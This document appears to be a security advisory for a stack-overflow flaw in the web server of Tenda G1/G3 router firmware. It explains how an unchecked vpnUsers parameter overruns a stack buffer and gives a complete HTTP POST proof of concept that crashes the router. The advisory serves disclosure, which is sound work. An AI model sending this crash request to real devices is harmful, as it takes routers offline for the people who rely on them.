


# Tenda Vulnerability

Vendor:Tenda

Product:G1、G3

Version:V15.11.0.17(9502)_CN(Download Link:https://www.tenda.com.cn/download/detail-3108.html)

Type:Stack Overflow

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in Tenda router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In `formAddVpnUsers` function, `vpnUsers` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow,so we can control the `vpnUsers` to crash the server.

<div  align="center"></div>

As you can see here, the input has not been checked. In `addVpnUser` function, the parameter `user` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 


## PoC

We set `vpnUsers` as **aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa....** , and the router will crash, such as:

```http
POST /goform/addVpnUsers HTTP/1.1
Host: 192.168.1.252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 725
Origin: http://192.168.1.252
Connection: close
Referer: http://192.168.1.252/vpn/pptpServer.html?0.6631322384477757
Cookie: _:USERNAME:_=; G3v3_user=

vpnUsers=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa	abc123	false			
```

> The separator of the string is Tab


## Result

The target router crashes and cannot provide services correctly and persistently.
